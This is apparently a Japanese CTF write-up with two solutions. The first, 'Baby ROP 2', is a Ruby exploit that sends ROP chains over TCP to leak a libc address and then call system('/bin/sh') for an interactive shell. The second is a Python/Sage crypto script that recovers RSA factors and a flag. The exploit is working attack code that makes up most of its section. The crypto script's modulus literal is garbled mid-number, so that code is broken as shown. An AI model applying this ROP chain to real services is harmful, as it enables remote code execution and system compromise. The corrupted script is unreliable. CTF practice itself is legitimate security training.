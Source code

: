 
```text
$ ruby exploit.rb problem.harekaze.com 20001
```


# Baby ROP 2 (pwn 200pts)


1 回目の ROP で、printf(read)を実行させて、libc のアドレスをリークさせ、main に戻す。
2 回目の ROP で、libc のアドレスを利用して system(“/bin/sh”)を実行する。


```ruby
rp = [0, 0x00400733, 0x601020 , 0x4004f0, 0x400636].pack("Q*")
require 'ctf'

read_ptr = 0x00000000000f7250

TCPSocket.open(*ARGV) do |s|
    s.echo = true
    s.puts 'a' * 32 + rp
    s.flush
    s.expect("H!\n")
    lc = s.expect(/What/)[0]
    libc_base = ((lc[0...-4] + "\0" * 8).unpack1('q') - read_ptr)
    rp = [0, 0x00400733, 0x0018cd57 + libc_base, 0x0000000000045390 + libc_base].pack('Q*')

    s.puts 'a' * 32 + rp
    s.flush

    s.interactive!
end
```


```text
$ ruby exploit.rb problem.harekaze.com 20005
```


# show me your private key(Crypto 200pts)


Crypto.PublicKey.RSA の construct を利用することで、n, e, d から RSA の素因数 p, q が得られる。


mod p に対しては位数から 1/e 乗は簡単にできるので、計算するとフラグが得られる。フラグが mod p より大きい場合は mod q も求めて CRT すれば良い。


```python
from Crypto.Util.number import long_to_bytes
from Crypto.PublicKey import RSA

(n, e, d) = (9799080661501467884467225188078342742766492539290ls954649052326288545249523485259554498055327101620585612049935019772095457875188392850174807669467113561703L, 65537, 357800937225887859492043729115941745631326069953205890949878950951199812467762505076908807818483545413271956081271375834809278508559178715879283048960953)
Cx = 4143446088312921816758362264853048120154280049677909632349103364802575463576509561464947871773793787896063253331418475283720886100034333135184249344102365
Cy = 8384037709829308179633895299138296616530497125381624381678499818112417287445046103971322133573513084823937517071462947639275474462359445732327289575301489
key = RSA.construct((long(n), long(e), long(d)))
p = key.p
b = (pow(Cy, 2, n) - pow(Cx, 3,n)) % p

EC = EllipticCurve(Zmod(p), [0, b])
pt = (EC([Cx,Cy])) * (Mod(e, EC.order())^-1).lift()
print long_to_bytes(pt[1]) + long_to_bytes(pt[0]) 
```